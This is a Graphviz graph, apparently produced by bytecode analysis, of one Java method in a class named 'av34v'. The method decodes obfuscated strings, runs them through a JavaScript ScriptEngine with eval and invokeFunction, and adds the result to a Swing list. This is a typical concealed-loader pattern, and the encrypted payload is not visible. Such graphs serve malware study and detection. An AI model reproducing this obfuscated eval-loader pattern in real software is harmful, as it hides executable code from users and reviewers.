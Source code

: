 digraph "" {
    "r0 := @this: av34v"
    "load.r r0"
    "r0 := @this: av34v"->"load.r r0";
    "push \"%$&%gqlfymak)peVav\u007fkv,},\u0017$>%9\u007fs%\u0018$\u0016>UlKv\u0003pAV]vCkR$\u000b%Wq\\fImQk\u0011-Alc,&l!9?%=$\'q{}qotrw+}e|b3Wgvmaw+VaRVDgWwDpWHHjKbPv\u001ekDh^,\u0006k\u0010qVWNwlja-(?\u007f%nezfa,*`5-mxx$/%,?l`mqhk\u0005#\u0001>\\?G%\u0010$@`^$owGkD-\u0018?W+PaMvXc_%8$rmhw9whp{wg$o>(\""
    "load.r r0"->"push \"%$&%gqlfymak)peVav\u007fkv,},\u0017$>%9\u007fs%\u0018$\u0016>UlKv\u0003pAV]vCkR$\u000b%Wq\\fImQk\u0011-Alc,&l!9?%=$\'q{}qotrw+}e|b3Wgvmaw+VaRVDgWwDpWHHjKbPv\u001ekDh^,\u0006k\u0010qVWNwlja-(?\u007f%nezfa,*`5-mxx$/%,?l`mqhk\u0005#\u0001>\\?G%\u0010$@`^$owGkD-\u0018?W+PaMvXc_%8$rmhw9whp{wg$o>(\"";
    "staticinvoke <q: java.lang.String g(java.lang.String)>"
    "push \"%$&%gqlfymak)peVav\u007fkv,},\u0017$>%9\u007fs%\u0018$\u0016>UlKv\u0003pAV]vCkR$\u000b%Wq\\fImQk\u0011-Alc,&l!9?%=$\'q{}qotrw+}e|b3Wgvmaw+VaRVDgWwDpWHHjKbPv\u001ekDh^,\u0006k\u0010qVWNwlja-(?\u007f%nezfa,*`5-mxx$/%,?l`mqhk\u0005#\u0001>\\?G%\u0010$@`^$owGkD-\u0018?W+PaMvXc_%8$rmhw9whp{wg$o>(\""->"staticinvoke <q: java.lang.String g(java.lang.String)>";
    "store.r r14"
    "staticinvoke <q: java.lang.String g(java.lang.String)>"->"store.r r14";
    "new javax.swing.JList"
    "store.r r14"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"^tauCva}l!\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"^tauCva}l!\"";
    "push \"^tauCva}l!\""->"staticinvoke <q: java.lang.String g(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "staticinvoke <q: java.lang.String g(java.lang.String)>"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "load.r r14"
    "dup1.r"->"load.r r14";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "load.r r14"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "checkcast"
    "pop"->"checkcast";
    "push \"a{Eac}|2\""
    "checkcast"->"push \"a{Eac}|2\"";
    "push \"a{Eac}|2\""->"staticinvoke <q: java.lang.String g(java.lang.String)>";
    "staticinvoke <q: java.lang.String g(java.lang.String)>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r0";
    "arraywrite.r"
    "load.r r0"->"arraywrite.r";
    "interfaceinvoke <javax.script.Invocable: java.lang.Object invokeFunction(java.lang.String,java.lang.Object[])> 2"
    "arraywrite.r"->"interfaceinvoke <javax.script.Invocable: java.lang.Object invokeFunction(java.lang.String,java.lang.Object[])> 2";
    "interfaceinvoke <javax.script.Invocable: java.lang.Object invokeFunction(java.lang.String,java.lang.Object[])> 2"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <av34v: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <av34v: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <av34v: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <av34v: java.awt.Component add(java.awt.Component)>"->"store.r r0";
}
